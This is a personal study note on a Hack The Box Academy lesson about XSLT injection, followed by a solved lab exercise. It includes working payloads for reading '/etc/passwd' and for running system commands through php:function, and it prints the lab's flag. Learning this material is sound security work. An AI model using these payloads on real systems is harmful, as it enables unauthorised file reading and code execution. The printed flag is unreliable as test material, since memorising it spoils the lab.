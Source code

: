 ```yaml
---
sticker: lucide//languages
---
```

After discussing some basics and use cases for XSLT, let us dive into exploiting XSLT injection vulnerabilities. 

---

## Identifying XSLT Injection

Our sample web application displays basic information about some Academy modules:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_1.png)

At the bottom of the page, we can provide a username that is inserted into the headline at the top of the list:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_2.png)

As we can see, the name we provide is reflected on the page. Suppose the web application stores the module information in an XML document and displays the data using XSLT processing. In that case, it might suffer from XSLT injection if our name is inserted without sanitization before XSLT processing. To confirm that, let us try to inject a broken XML tag to try to provoke an error in the web application. We can achieve this by providing the username `<`:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_3.png)

As we can see, the web application responds with a server error. While this does not confirm that an XSLT injection vulnerability is present, it might indicate the presence of a security issue.

---

## Information Disclosure

We can try to infer some basic information about the XSLT processor in use by injecting the following XSLT elements:


```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

The web application provides the following response:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_4.png)

Since the web application interpreted the XSLT elements we provided, this confirms an XSLT injection vulnerability. Furthermore, we can deduce that the web application seems to rely on the `libxslt` library and supports XSLT version `1.0`.

---

## Local File Inclusion (LFI)

We can try to use multiple different functions to read a local file. Whether a payload will work depends on the XSLT version and the configuration of the XSLT library. For instance, XSLT contains a function `unparsed-text` that can be used to read a local file:

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

However, it was only introduced in XSLT version 2.0. Thus, our sample web application does not support this function and instead errors out. However, if the XSLT library is configured to support PHP functions, we can call the PHP function `file_get_contents` using the following XSLT element:


```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

Our sample web application is configured to support PHP functions. As such, the local file is displayed in the response:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_5.png)

---

## Remote Code Execution (RCE)

If an XSLT processor supports PHP functions, we can call a PHP function that executes a local system command to obtain RCE. For instance, we can call the PHP function `system` to execute a command:

```xml
<xsl:value-of select="php:function('system','id')" />
```

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_6.png)

# Question
---

![](../images/Pasted%20image%2020250212153714.png)

Let's begin by identifying if the web application is vulnerable to XSLT:

![](../images/Pasted%20image%2020250212153742.png)

If we use a test username, we can see it gets injected into the top side of the website, let's use `<` and check if an error occurs:

![](../images/Pasted%20image%2020250212153834.png)

Page is broken, which means its vulnerable to XSLT, we can get RCE by submitting the following payload:

```xml
<xsl:value-of select="php:function('system','id')" />
```

![](../images/Pasted%20image%2020250212153929.png)

We got RCE, let's read `/` directory:

```xml
<xsl:value-of select="php:function('system','ls /')" />
```

![](../images/Pasted%20image%2020250212153953.png)

Found our flag:

```xml
<xsl:value-of select="php:function('system','cat /flag.txt')" />
```

![](../images/Pasted%20image%2020250212154014.png)

Flag is:

```
HTB{3a4fe85c1f1e2b61cabe9836a150f892}
```

